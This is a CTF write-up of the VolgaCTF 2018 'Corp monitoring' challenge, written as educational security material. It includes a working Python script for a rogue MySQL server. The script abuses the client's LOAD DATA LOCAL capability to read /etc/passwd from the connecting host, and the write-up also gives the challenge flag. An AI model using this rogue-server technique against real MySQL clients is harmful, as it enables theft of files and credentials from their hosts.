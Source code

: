 # Volgactf CTF 2018

[TOC]

## Web

### Corp monitoring (unsolved, written by bookgin, special thanks to Aleksey)

A monitoring server will monitor the host via this API The timestamp doesn't matter at all.

`http://corpmonitoring.quals.2018.volgactf.ru:5000/api/check_host?target=corpmonitoring.quals.2018.volgactf.ru&_=1521894046582`

We tried some SQL/command injection but failed. 
By scanning the host, we found listening ports 21(ftp),22(ssh),80(http),3306(mysql),5000(monitoring website).
Also, we tried to make the host monitor our server, `/api/check_host?target=MYIP`. The monitoring procedure is:

- TCP handshake with port 21
- TCP handshake with port 22
- HTTP Request to port 80 (no js engines)
- MySQL client `monitoring` with encrypted password connects to port 3306. 
  - If it logs in successfully, execute these queries:
  - SET NAMES 'utf8' COLLATE 'utf8_general_ci'
  - SET @@session.autocommit = OFF
  - SHOW DATABASES

The first idea is to perform a man-in-the-middle attack, making the monitoring host connect to itself and intercepting the query.
However, after the client logins to its own MySQL server, the databaseis empty. We found nothing interesting there.
Soon after, the MySQL server is down because someone changes the password! We ask the admins, and the official said the MySQL server is not required to be up in this challenge.

And... we stuck here for hours. We try to decrpyt the MySQL plaintext password, abuse the MySQL error message as the Flask-SQLAlchemy
 backend will show the error message, but both methods seem impossible.
 

After the competition ends, we ask one of the admins Aleksey about the solution. The main idea behind is http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/. Attack the client directly! What a cool idea!

We make it work after the competition, which gets the flag in a jiffy. Here is the rogue MySQL sever code: Note that it uses [Python3-pwntools](https://github.com/arthaud/python3-pwntools).

```python
#!/usr/bin/env python3
# Python 3.6.4
from pwn import *

server = listen(3306)

server.wait_for_connection()
# Server Greeting
server.send(bytes.fromhex('4a0000000a352e372e32310007000000447601417b4f123700fff7080200ff8115000000000000000000005c121c5e6f7d387a4515755b006d7973716c5f6e61746976655f70617373776f726400'))
# Client login request
print(server.recv())
# Server Response OK
server.send(bytes.fromhex('0700000200000002000000'))
# Client SQL query
print(server.recv())
# Server response with evil
query_ok = bytes.fromhex('0700000200000002000000')
dump_etc_passwd = bytes.fromhex('0c000001fb2f6574632f706173737764')
server.send(dump_etc_passwd)

# This contains the flag VolgaCTF{hoz3foh3wah6ohbaiphahg6ooxumu8ieNg7Tonoo}
print(server.recv())
```


The key is to discover **the client ability** bit in the client login request. However, we forgot to do that :(
```
.... .... 1... .... = Can Use LOAD DATA LOCAL: Set
```

This task has been solved by only 5 teams.

